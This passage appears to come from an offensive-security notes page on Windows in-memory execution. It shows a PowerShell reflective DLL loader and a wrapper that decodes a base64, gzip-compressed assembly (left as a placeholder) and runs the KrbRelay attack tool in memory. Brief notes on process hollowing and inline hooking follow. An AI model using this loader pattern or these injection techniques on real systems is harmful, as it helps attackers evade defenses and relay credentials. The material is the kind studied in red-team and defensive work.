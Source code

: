 ```C#
        }

    }
}
```

#### Load from powershell
```powershell
$dllbytes = [io.file]::ReadAllBytes("C:\Users\i4\source\repos\gen2\gen2\MyClass.dll")
[System.Reflection.Assembly]::Load($dllbytes)

GAC    Version        Location
---    -------        --------
False  v4.0.30319

PS C:\Users\i4\source\repos\gen2\gen2> [MyNamespace.MyClass]::MyMethod()

```

```wrapper
	$a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String("xxx")
    $decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress)
    $output = New-Object System.IO.MemoryStream
    $decompressed.CopyTo( $output )
    [byte[]] $byteOutArray = $output.ToArray()
    $RAS = [System.Reflection.Assembly]::Load($byteOutArray)

    $OldConsoleOut = [Console]::Out
    $StringWriter = New-Object IO.StringWriter
    [Console]::SetOut($StringWriter)

    [KrbRelay.Program]::main([string[]]$args)

    [Console]::SetOut($OldConsoleOut)
    $Results = $StringWriter.ToString()
    $Results
```

### Process Hollowing
* [Process Hollowing and PE Image relocation](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)
- Replaces a suspended processes Image with a malicious file

![Process Hollowing](/w/images/process_hooking.png)


### Inline hooking
- Modify process memory 
- Redirect the code execution into a new function
- Return back to normal execution

![Inline Hooking](/w/images/inline_hooking.png)
